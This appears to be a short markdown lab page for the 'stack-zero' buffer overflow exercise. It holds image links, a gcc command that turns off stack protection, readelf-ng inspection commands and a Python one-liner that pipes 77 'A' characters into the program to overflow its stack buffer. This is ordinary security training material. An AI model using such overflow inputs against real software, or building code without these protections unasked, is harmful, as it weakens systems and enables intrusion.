




```bash
gcc -o stack-zero stack-zero.c -I. -O0 -Wall -ggdb -fno-stack-protector -z execstack
```

```bash
readelf-ng -h stack-zero
```

```bash
readelf-ng -r stack-zero
```

```bash
readelf-ng -s stack-zero
```

```bash
readelf-ng -m .text stack-zero
```

```bash
python3 -c "print('A' * (13+64))" | ./stack-zero
```

